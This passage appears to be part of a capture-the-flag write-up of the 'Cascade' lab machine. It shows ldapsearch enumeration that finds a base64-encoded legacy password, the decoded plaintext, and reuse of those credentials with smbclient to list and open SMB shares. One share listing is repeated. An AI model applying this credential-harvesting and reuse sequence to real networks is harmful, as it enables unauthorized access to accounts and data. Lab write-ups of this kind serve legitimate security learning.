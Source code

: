 ```bash
```

#### Ldap enumeration

We will use ldapsearch to further extend out enumeration as port 3268 is open for ldap.

running `ldapsearch -x -h cascade.htb -b "dc=CASCADE,dc=local"` we get back a long list of results. The one particular thing that stuck out was an attribute called `cascadeLegacyPwd`. There is also a base64 string next to it.

```bash
cascadeLegacyPwd: clk0bjVldmE=
```

We decode this from base64 using the command line and we get what seems to be a password. Based on the atttribute name it sounds like a password.

```bash
➜  cascade echo "clk0bjVldmE=" | base64 -d
rY4n5eva
```

Since this section was found under the user `r.thompson` in the ldapsearch we will use this user.

```bash
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
```

#### Enumerating smb shares as r.thompson

We can confrim that theese credentials work when we list smb shares as the user with his password.

```bash
➜  cascade smbclient -L cascade.htb -U r.thompson                    
Enter WORKGROUP\r.thompson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Now we know that the creds are correct we will login as him and enumerate further.

```bash
➜  cascade smbclient -L cascade.htb -U r.thompson                    
Enter WORKGROUP\r.thompson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
➜  cascade smbclient  //cascade.htb/Data -U r.thompson
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
```